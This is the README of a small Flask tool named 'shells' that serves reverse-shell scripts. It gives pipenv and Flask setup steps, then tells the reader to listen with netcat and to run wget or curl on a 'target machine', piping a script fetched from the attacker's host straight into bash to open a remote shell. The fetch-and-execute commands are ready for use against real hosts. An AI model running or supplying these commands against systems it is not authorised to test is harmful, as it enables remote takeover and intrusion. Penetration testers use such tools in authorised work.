 # shells
shells, based on [reverse-shell](https://github.com/lukechilds/reverse-shell).

# run
setup python environment
```bash
pipenv install
```

virtual environment
```bash
pipenv shell
```
run app
```bash
flask run
```

or just run this, specify host and port.
```
pipenv run flask run --port 8080 --host 0.0.0.0
```

# give me a shell
Listen with netcat:
```
nc -lvp 1338
```

run this on target machine:
```
wget -qO- http://mi-ip-host:port/127.0.0.1:1338 | bash

curl http://mi-ip-host:port/127.0.0.1:1338 | bash
```
